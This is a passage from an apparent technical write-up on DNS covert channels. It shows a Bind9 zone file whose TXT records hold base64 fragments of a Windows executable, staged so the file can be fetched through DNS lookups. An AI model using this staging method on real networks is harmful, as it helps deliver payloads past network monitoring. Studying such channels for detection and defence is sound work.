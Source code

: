 <div>
<center><i> Listing 2. Bind9 logging options. </i></center><br>
</div>

Afterwards, to allow reverse communication, TXT records were created (Listing 3), where each of them can contain up to 255 characters. In this case, there is no need to manually reconstruct the order of the data, because of the fact that each part is contained in a separate subdomain.
```
$TTL 86400
@ IN SOA dns-primary.secure.communications. admin.secure.communications. (
                                                2021111503 ;Serial
                                                3600 ;Refresh
                                                1800 ;Retry
                                                604800 ;Expire
                                                86400 ;Minimum TTL
)

;Name Server Information
@ IN NS dns-primary.secure.communications.

;IP Address for Name Server
dns-primary IN A 123.123.123.123

;Mail Server MX (Mail exchanger) Record
secure.communications. IN MX 10

;A Record for the following Host name
www  IN   A   10.0.10.13

;CNAME Record
ftp  IN   CNAME www.secure.communications.

value1 IN TXT "TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAABQRQAATAEDACcb9lgAAAAAAAAAAOAAIgALATAAAD4AAAAIAAAAAAAAZlwAAAAgAAAAYAAAAABAAAAgAAAAAgA"
value2 IN TXT "BAAAAAAAAAAGAAAAAAAAAACgAAAAAgAAAAAAAAIAYIUAABAAABAAAAAAEAAAEAAAAAAAABAAAAAAAAAAAAAAABRcAABPAAAAAGAAAMAFAAAAAAAAAAAAAAAAAAAAAAAAAIAAAAwAAADcWgAAHAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAIAAACAAAAAAAAAAAAAAACCAAAEgAAAAAAAAAAAAAAC50ZXh0AA"
value3 IN TXT "AbDwAAAAgAAAAPgAAAAIAAAAAAAAAAAAAAAAAACAAAGAucnNyYwAAAMAFAAAAYAAAAAYAAABAAAAAAAAAAAAAAAAAAABAAABALnJlbG9jAAAMAAAAAIAAAAACAAAARgAAAAAAAAAAAAAAAAAAQAAAQgAAAAAAAAAAAAAAAAAAAABIXAAAAAAAAEgAAAACAAUAjDQAAPAZAAADAAIAGAAABnxOAABgDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
value4 IN TXT "AAAAAAAAAAAAAAAAAAAAAAABMwAwCjAAAAAQAAEQIfDB8McxUAAAp9AgAABAIfC40mAAABfQMAAAQCKBYAAAoAAAIDfQEAAAQXCitoAAYb/gQLBywJAhd9BAAABCtDBhsyBgYe/gQrARYMCCwJAhh9BAAABCsrBh4yBwYfCv4EKwEWDQksCQIZfQQAAAQrEgYfCv4BEwQRBCwHAhp9BAAABAJ7AwAABAYCewQAAASeAAYXWAoGHwv+BBMFEQUt"
value5 IN TXT "SoAEzAEADQAAAACAAARABcKKyUAFwsrEgJ7AgAABAcGFigXAAAKBxdYCwcfC/4EDAgt5QAGF1gKBh8L/gQNCS3SKhMwBADnAAAAAwAAEQAOBBb+AQoGLGkAFgsrLwAWDCsbAnsCAAAEAwdYF1kECFgXWR8LKBcAAAoIF1gMCAUYWP4EDQkt2wAHF1gLBxn+BBMEEQQtxxYTBSsYAnsCAAAEAwQRBVgOBSgXAAAKEQUXWBMFEQUF/gQTBhEGLd0"
value6 IN TXT "K3MAFhMHKzkAFhMIKx8CewIAAAQDEQhYF1kEEQdYF1kfCygXAAAKEQgXWBMIEQgFGFj+BBMJEQkt1AARBxdYEwcRBxn+BBMKEQotvBYTCysYAnsCAAAEAxELWAQOBSgXAAAKEQsXWBMLEQsF/gQTDBEMLd0AKgATMAEADAAAAAQAABEAAnsCAAAECisABioTMAUA8wAAAAUAABEAAnsCAAAEAwQoGAAACh8M/gEKBiwMAhh9BQAABDi1AAAAAn"
value7 IN TXT "CAAAEAwQoGAAACiwTAnsCAAAEAwQoGAAACh8L/gErARcLBywMAhZ9BQAABDiCAAAAAnsCAAAEAwQoGAAAChcyFgJ7AgAABAMEKBgAAAofCv4CFv4BKwEWDAgsVwACF30FAAAEAnsDAAAEAnsCAAAEAwQoGAAACo8mAAABJUoXWVQCewMAAAQCewIAAAQDBCgYAAAKlBb+AQ0JLBYCHwoCewIAAAQDBCgYAAAKWH0FAAAEAAJ7AgAABAMEHwwoF"
value8 IN TXT "AACgJ7BQAABBMEKwARBCoAEzADAFAAAAAAAAAAAnMZAAAKfQoAAAQCHwwfDHMVAAAKfQsAAAQCFn0MAAAEAhZ9DQAABAIoFgAACgAAAgN9BgAABAIDcxIAAAZ9BwAABAIDcwEAAAZ9CAAABCoTMAQAagAAAAYAABEAAnsGAAAEexUAAAQW/gEKBixWACs4AAJ7CgAABB8KbxoAAAoXWAsCewoAAAQfCm8aAAAKF1gMAnsLAAAEBwgoGAAAChb+"
value9 IN TXT "Q0JLAIrAwArxgJ7CwAABAcIFygXAAAKAgcIFygIAAAGAAAqAAATMAQACwIAAAcAABEABRf+AQsHOcQAAAAAAnsGAAAEexoAAARvGwAACgQXWR8KWgMXWVhvHAAACnQUAAABCgJ7BwAABAMEbw4AAAYMCBb+AQ0JLA4GcgEAAHBvHQAACgAraAgX/gETBBEELA4GKB4AAApvHwAACgArUAAGKB4AAApvHwAACgACAnsMAAAEF1h9DAAABAJ7DAA"
value10 IN TXT "BB8K/gETBREFLCQAAnsGAAAEexsAAARyBQAAcG8gAAAKAAJ7BgAABBd9FQAABAAAAnsGAAAEF30ZAAAEADg6AQAAAAJ7BgAABHscAAAEbxsAAAoEF1kfCloDF1lYbxwAAAp0FAAAAQoCewgAAAQDBG8OAAAGEwYRBhb+ARMHEQcsKQACewYAAAR7HwAABHIbAABwbyAAAAoABnIBAABwbx0AAAoAADi9AAAAEQYX/gETCBEILCkAAnsGAAAEex"

...
```
